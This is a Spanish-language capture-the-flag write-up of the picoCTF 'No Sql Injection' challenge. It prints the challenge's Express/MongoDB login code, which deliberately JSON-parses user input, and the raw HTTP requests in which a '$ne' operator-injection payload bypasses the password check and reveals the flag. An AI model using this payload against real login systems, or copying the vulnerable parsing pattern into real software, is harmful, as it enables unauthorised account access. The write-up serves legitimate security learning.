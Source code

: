 ```yaml
---
title: No Sql Injection
date: 2025-07-26 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, explotación web, no sql, mongodb]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>No Sql Injection
Author: NGIRIMANA Schadrack
Description
Can you try to get access to this website to get the flag? You can download the source here. The website is running here. Can you log in?
{: .prompt-tip }

Parece que tenemos que hacer fuerza bruta contra una página de login, las pistas dicen que "no solo existen las inyecciones SQL sino también las NoSQL", dando a entender que debemos buscar un tipo de inyección para una base de datos noSQL.

```html
 Login
Email:
Password:
```

Siguiendo las indiciciones descargo el código fuente.
``` shell
wget https://artifacts.picoctf.net/c_atlas/38/app.tar.gz
```

Ahora podemos echar un ojo a parte del código fuente de la aplicación

``` javascript
const express = require("express");
const bodyParser = require("body-parser");
const mongoose = require("mongoose");
const { MongoMemoryServer } = require("mongodb-memory-server");
const path = require("path");
const crypto = require("crypto");

const app = express();
const port = process.env.PORT | 3000;

// Middleware to parse JSON data
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: true }));

// User schema and model
const userSchema = new mongoose.Schema({
  email: { type: String, required: true, unique: true },
  firstName: { type: String, required: true },
  lastName: { type: String, required: true },
  password: { type: String, required: true },
  token: { type: String, required: false, default: "{{Flag}}" },
});

const User = mongoose.model("User", userSchema);

// Initialize MongoMemoryServer and connect to it
async function startServer() {
  try {
    const mongoServer = await MongoMemoryServer.create();
    const mongoUri = mongoServer.getUri();
    await mongoose.connect(mongoUri);

    // Store initial user
    const initialUser = new User({
      firstName: "pico",
      lastName: "player",
      email: "picoplayer355@picoctf.org",
      password: crypto.randomBytes(16).toString("hex").slice(0, 16),
    });
    await initialUser.save();

    // Serve the HTML form
    app.get("/", (req, res) => {
      res.sendFile(path.join(__dirname, "index.html"));
    });

    // Serve the admin page
    app.get("/admin", (req, res) => {
      res.sendFile(path.join(__dirname, "admin.html"));
    });

    // Handle login form submission with JSON
    app.post("/login", async (req, res) => {
      const { email, password } = req.body;

      try {
        const user = await User.findOne({
          email:
            email.startsWith("{") && email.endsWith("}")
              ? JSON.parse(email)
              : email,
          password:
            password.startsWith("{") && password.endsWith("}")
              ? JSON.parse(password)
              : password,
        });

        if (user) {
          res.json({
            success: true,
            email: user.email,
            token: user.token,
            firstName: user.firstName,
            lastName: user.lastName,
          });
        } else {
          res.json({ success: false });
        }
      } catch (err) {
        res.status(500).json({ success: false, error: err.message });
      }
    });

    app.listen(port, () => {
    });
  } catch (err) {
    console.error(err);
  }
}

startServer().catch((err) => console.error(err));
```

De este código podemos obtener dos presuntas informaciones sobre este sistema, un email válido siempre va a existir en la aplicación **picoplayer355@picoctf.org**, pues se inicializa, este correo podría ser un vector de ataque de fuerza bruta dado ahora que conocemos el nombre de usuario (en este caso el email) de un usuario que se crea automáticamente.  Además tenemos una línea de código que revela el uso del MongoDB.

``` javascript
const { MongoMemoryServer } = require("mongodb-memory-server");
```
Parece que habrá que probar payloads NoSQL. Es un ataque que consiste en truncar la lógica del motor de MongoDB para obtener resultados inesperados en la lógica de la aplicación, compienzo a probar payloads.

``` html
POST http://atlas.picoctf.net:58649/login HTTP/1.1
host: atlas.picoctf.net:58649
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://atlas.picoctf.net:58649/
Content-Type: application/json
content-length: 64
Origin: http://atlas.picoctf.net:58649
Connection: keep-alive
Priority: u=0

{"email":"picoplayer355@picoctf.org","password":" {"$ne": "a"}"}
```
Respuesta 
```html
HTTP/1.1 400 Bad Request
X-Powered-By: Express
Content-Security-Policy: default-src 'none'
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Content-Length: 918
Date: Fri, 25 Jul 2025 21:35:13 GMT
Connection: keep-alive
Keep-Alive: timeout=5

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>SyntaxError: Unexpected token $ in JSON at position 52<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at parse (/app/node_modules/body-parser/lib/types/json.js:92:19)<br> &nbsp; &nbsp;at /app/node_modules/body-parser/lib/read.js:128:18<br> &nbsp; &nbsp;at AsyncResource.runInAsyncScope (node:async_hooks:203:9)<br> &nbsp; &nbsp;at invokeCallback (/app/node_modules/raw-body/index.js:238:16)<br> &nbsp; &nbsp;at done (/app/node_modules/raw-body/index.js:227:7)<br> &nbsp; &nbsp;at IncomingMessage.onEnd (/app/node_modules/raw-body/index.js:287:7)<br> &nbsp; &nbsp;at IncomingMessage.emit (node:events:525:35)<br> &nbsp; &nbsp;at endReadableNT (node:internal/streams/readable:1358:12)<br> &nbsp; &nbsp;at processTicksAndRejections (node:internal/process/task_queues:83:21)</pre>
</body>
</html>
```
La respuesta "Unexpected token $ in JSON at position 52" da a entender que hay que escapar algunos carácteres y jugar con la sintaxis, así que pruebo varias veces y finalmente el payload es el siguiente, escapando las comillas dobles ""

``` json
{"email":"picoplayer355@picoctf.org","password":"{\"$ne\": \"a\"}"}
```

``` html
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 186
ETag: W/"ba-hs16MdMy+WdMG1PuiylPpkCwgrU"
Date: Fri, 25 Jul 2025 21:41:10 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"success":true,"email":"picoplayer355@picoctf.org","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzI1YmE0ZGUxfQ==","firstName":"pico","lastName":"player"}
```

Decodificamos el token con base64

``` shell
pablo☠office no-sql-injection$ echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzI1YmE0ZGUxfQ" | base64 -d
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_25ba4de1}base64: entrada inválida
```

flag: **picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_25ba4de1}**

Truncando la lógica de bases de datos de datos documentales. 

